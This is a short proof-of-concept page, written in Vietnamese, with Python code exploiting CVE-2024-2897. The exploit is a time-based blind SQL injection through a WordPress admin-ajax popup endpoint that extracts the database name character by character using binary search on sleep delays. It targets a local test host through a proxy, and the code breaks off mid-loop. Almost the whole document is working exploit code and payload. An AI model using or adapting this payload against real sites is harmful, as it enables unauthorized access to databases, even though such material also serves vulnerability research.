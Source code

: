 ## POC 

Dưới đây là đoạn mã khai thác CVE-2024-2897 bằng python (lấy ra tên DBS). 

```python
import requests
import urllib3
import time
from urllib.parse import quote


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


# Định nghĩa URL ban đầu
base_url = "http://localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[where]="


proxy = {
   "http": "http://127.0.0.1:8080",
   "https": "http://127.0.0.1:8080"
}


cheaders = {
   "Host": "0.0.0.0:8000",
   "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
   "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
   "Connection": "close",
   "Upgrade-Insecure-Requests": "1",
}


dataBase = ''


for pos in range(1, 30):  # Giả sử tên cơ sở dữ liệu có độ dài tối đa là 20 ký tự
   l, r = 1, 255  # Khoảng giá trị ASCII in được
   while l <= r:
       mid = (l + r) // 2


       # Tạo và mã hóa payload
       # (select 1 from (select (IF(1=1,sleep (10),1) )) as tmp)
      
       payload = f" (select 1 from (select ( IF(ASCII(SUBSTRING((SELECT database()),{pos},1))<{mid},(sleep (1)), 0) )) as tmp)"
       encoded_payload = quote(payload)  # Mã hóa payload để tránh vấn đề trong URL
       target_url = base_url + encoded_payload


       start_time = time.time()
       res = requests.get(target_url, verify=False, proxies=proxy, headers=cheaders)
       end_time = time.time()


       elapsed_time = end_time - start_time
       # print(f"Testing position {pos}, range {l}-{r}, mid {mid}, elapsed time: {elapsed_time}s")


       if elapsed_time < 1:
           # print("Condition met, adjusting l")
           l = mid + 1
```